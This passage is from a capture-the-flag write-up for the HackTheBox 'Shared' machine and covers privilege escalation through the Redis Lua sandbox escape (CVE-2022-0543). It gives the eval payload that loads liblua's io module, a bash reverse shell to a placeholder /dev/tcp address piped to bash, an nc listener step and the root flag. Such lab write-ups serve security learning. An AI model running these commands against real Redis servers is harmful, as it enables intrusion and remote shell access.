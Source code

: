 ````

### Privilege Escalation

- From the above research, I get a script code can execute arbitrary command, but I also check other payload from Github.
    - [CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py)

- But the same things is the payload will execute command in both of github and above article.
``` local f = io.popen("id", "r"); # command``` 
- And after I tried the payload script in victim host, it will failed to execute command.

- So I try to save the rev shell command to a file.
```
echo "bash -i >& /dev/tcp/{reverse ip address}/{reverse port} 0>&1" > /dev/shm/exp
```

- Using eval to load 'lua script' then execute the file which include the reverse shell

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gun/liblua5.1.sp.0", "luaopen_io"); local io =io_l(); local f = io.popen("cat /dev/shm/exp | bash"); local res = f:read("*a"); f:close(); return res' 0
```

![](./IMG/77.png)
- In attacker host, create a nc connection on target port to wait for the reverse shell

![](./IMG/78.png)
- Get reverse shell, check user and permission

![](./IMG/79.png)
- Visit to root directory 

![](./IMG/80.png)
- Get root flag:
``` 335f8a73a9bd5a89bb7212edeba9db23```

![](./IMG/81.png)


## Reference 
### Writeup

- [Writeup Shared HackTheBox](https://gatogamer1155.github.io/hackthebox/shared/)
- [HackTheBox Writeup: Shared](https://vato.cc/hackthebox-writeup-shared/)
- [(BreachForums) HTB Discussion: Shared](https://breached.to/Thread-Shared-HTB-Discussion--16135?page=3)

### Related Article

- [(HackTrick)6379 - Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

### Exploit Tools

- [pspy](https://github.com/DominicBreuker/pspy/releases)
- [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

### Vulnerability 

#### PrestaShop

- [Official Site](https://www.prestashop.com/en)
- [(Github)Source Code](https://github.com/PrestaShop/PrestaShop)
````